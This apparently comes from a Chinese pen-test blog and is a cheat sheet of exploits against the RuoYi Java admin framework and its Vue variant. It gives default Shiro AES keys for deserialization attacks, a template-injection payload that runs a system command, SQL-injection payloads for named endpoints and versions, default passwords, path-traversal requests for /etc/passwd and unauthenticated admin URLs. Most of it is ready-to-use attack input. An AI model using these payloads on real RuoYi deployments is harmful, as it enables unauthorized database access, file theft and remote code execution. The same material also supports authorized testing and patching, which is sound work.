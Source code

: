 ```yaml
---
layout: post
title: Ruoyi全框架利用总结
categories: [Pen-test]
Description: Ruoyi全框架利用总结
keywords: Ruoyi Burpsuite
mermaid: false
sequence: false
flow: false
mathjax: false
mindmap: false
mindmap2: false
---
```


Description: 本文介绍RuoYi项目及其不同版本（RuoYi、RuoYi-Vue、RuoYi-Cloud、RuoYi-App）的历史漏洞.

## Ruoyi系列

### Shiro反序列化（RuoYi<V-4.6.2）

[利用工具](https://github.com/SummerSec/ShiroAttack2)

RuoYi各版本的AES默认密钥

| RuoYi 版本号 | 对象版本的默认AES密钥    |
|--------------|--------------------------|
| 4.6.1-4.3.1  | zSyK5Kp6PZAAjlT+eeNMlg== |
| 3.4-及以下   | fCq+/xW488hMTCD+cmJ3aQ== |

> 4.2版本及以上需要使用GCM模式

> RuoYi-4.6.2版本开始就使用随机密钥的方式，而不使用固定密钥，若要使用固定密钥需要开发者自己指定密钥，因此4.6.2版本以后,在没有获取到密钥的请情况下无法再进行利用。

### SSTI（模板注入）漏洞 (仅适用V-4.7.1)

```shell
/monitor/cache/getName

/monitor/cache/getKeys

/monitor/cache/getValue

/demo/form/localrefresh/task

bady: cacheName=123&fragment=${T (java.lang.Runtime).getRuntime().exec(“calc.exe”)}
```

### Sql注入

```shell
无Content-Type则加上Content-Type: application/x-www-form-urlencoded; charset=UTF-8

/role/list接口 （<V-4.6.2）
payload: &params[dataScope]=and extractvalue(1,concat(0x7e,(select database()),0x7e))

/role/export （<V-4.6.2）
payload： &params[dataScope]=and extractvalue(1,concat(0x7e,(select database()),0x7e))

/user/list （<V-4.6.2）
payload: &params[dataScope]=and extractvalue(1,concat(0x7e,(select database()),0x7e))

/dept/list （<V-4.6.2）
payload: &params%5BdataScope%5D=and extractvalue(1,concat(0x7e,(select database()),0x7e))

/role/authUser/allocatedList （<V-4.6.2）
payload: &params%5BdataScope%5D=and extractvalue(1,concat(0x7e,(select database()),0x7e))

/role/authUser/unallocatedList （<V-4.6.2）
payload: &params%5BdataScope%5D=and extractvalue(1,concat(0x7e,(select database()),0x7e))

/dept/edit （<V-4.6.2）
payload: DeptName=xxxxxxxxxxx&DeptId=100&ParentId=555&Status=0&OrderNum=1&ancestors=0)or(extractvalue(1,concat(0,(select user()))));#
> DeptName为任意不存在的名称，DeptId为数据库中存在ID，ParentId为任意数字，其余参数固定

/tool/gen/createTable（V-4.7.1-V-4.7.5）
payload: CREATE table a4 as select extractvalue(1,concat(0x7e,(select database()), 0x7e));
```

### 默认口令（全版本）

```shell
admin ruoyi ry 
123456 admin admin123 admin888
```

### 任意文件下载（目前所有版本V-4.7.8)

```shell
payload: /common/download/resource?resource=/profile/../../../../../../etc/passwd
```

### 定时任务远程RCE（<V-4.7.2)

没有成功过

## RuoYi Vue

### 任意文件下载(<V-3.2.0)

```shell
payload: /common/download/resource/?name=/profile/../../../../../../etc/passwd
```

### 定时任务绕过思路（<V-3.8.2）

```shell
ruoYiConfig.setProfile(‘C://windows/win.ini’)
0/10 * * * * ?
```

### 未授权访问（<V-3.5.0)

```shell
http://localhost:8080/druid/index.html

http://localhost:8080/swagger-ui.html#/
```

### 定时任务远程RCE（<V-3.8.0)

没有成功过.

## RuoYi Cloud

## RuoYi App
